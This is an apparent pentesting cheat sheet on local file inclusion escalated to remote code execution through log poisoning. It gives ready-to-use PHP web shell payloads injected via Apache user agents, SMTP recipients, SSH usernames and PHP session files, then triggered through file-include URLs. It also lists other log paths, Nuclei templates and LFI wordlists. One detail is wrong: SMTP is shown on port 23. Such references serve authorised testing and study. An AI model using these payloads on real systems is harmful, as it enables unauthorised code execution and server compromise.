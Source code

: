 #### Log Poisoning
-> apache
```
nc ip 80  
<?php system($_GET[‘cmd’]); ?>  
```  
or  
1-  
```
curl -s http://ip/index.php -A '<?php system($_GET[‘cmd’]); ?>'
```
2-  
http://ip/index.php?file=/var/log/apache2/access.log&cmd=id  
  
-> SMTP  
```
telnet ip 23
MAIL FROM: email@gmail.com
RCPT TO: <?php system($_GET[‘cmd’]); ?>  
http://ip/index.php?file=/var/mail/mail.log&cmd=id
```  
  
-> SSH  
```
ssh \'<?php system($_GET['cmd']);?>'@ip  
http://ip/index.php?file=/var/log/auth.log&cmd=id
```  

-> PHP session  
```
http://ip/index.php?file=<?php system($_GET["cmd"]);?>  
http://ip/index.php?file=/var/lib/php/sessions/sess_<your_session>&cmd=id
```
  
-> Other Paths  
```
/var/log/nginx/access.log  
/var/log/sshd.log  
/var/log/vsftpd.log  
/proc/self/fd/0-50  
```

### Template LFI and directory traversal - Nuclei
https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/fuzzing/linux-lfi-fuzzing.yaml
https://raw.githubusercontent.com/CharanRayudu/Custom-Nuclei-Templates/main/dir-traversal.yaml

### Wordlists
-> burp-parameter-names.txt - Wordlist for parameter fuzzing  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt  
	
-> Wordlist LFI - Linux  
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
	